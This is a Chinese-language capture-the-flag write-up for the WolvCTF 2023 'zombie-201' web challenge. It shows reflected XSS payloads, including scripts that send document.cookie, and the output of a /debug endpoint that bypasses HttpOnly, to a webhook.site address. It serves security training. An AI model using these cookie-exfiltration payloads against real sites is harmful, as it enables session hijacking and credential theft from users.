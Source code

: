 # WolvCTF(2023)-zombie-201 writeup

访问题目地址:

![web-3.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.1.png)

有两个输入框，先看下前端代码,只有两个接口信息：
![web-3.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.2.png)

貌似没啥东西，第一个输入框要求输入一个zombie节目，第二个是输入一个zombie节目url。

第一个框随便输入内容之后，回显内容如下，输入内容嵌入到页面里面了

![web-3.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.3.png)

试试xss注入,很好，没有过滤：

<script>alert(1)</script>

请求地址：`http://49.232.142.230:11589/zombie?show=%3Cscript%3Ealert%281%29%3C%2Fscript%3E`

![web-3.8](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.8.png)

第二个框是输入一个url,随便输入之后，回显内容要求输入的url中host头要和题目地址一样，emm

![web-3.9](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.9.png)

试下101中的payload:

```
<script>fetch('https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c',{method:'POST',body:document.cookie})</script>
```

![web-4.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-4.1.png)

额。。没有回传cookie，推测应该是开启了httponly直接拦截了含有xss回弹cookie的请求，扫下接口看下，有个/debug接口：

![web-4.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-4.2.png)

访问下这个接口：
![web-4.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-4.3.png)

直接显示了请求头的信息，这里其实可以进行请求头xss注入。。。但是这个系列的题目中flag都在cookie中，可以利用这个页面，直接读取页面中的cookie信息回弹webhook.

```
<script>
fetch("http://49.232.142.230:11915/debug")
  .then(r => r.text())
  .then(t => fetch("https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c?c="+t));
</script>
```

![web-4.5](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-4.5.png)

cookie 信息回弹：

![web-4.4](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-4.4.png)
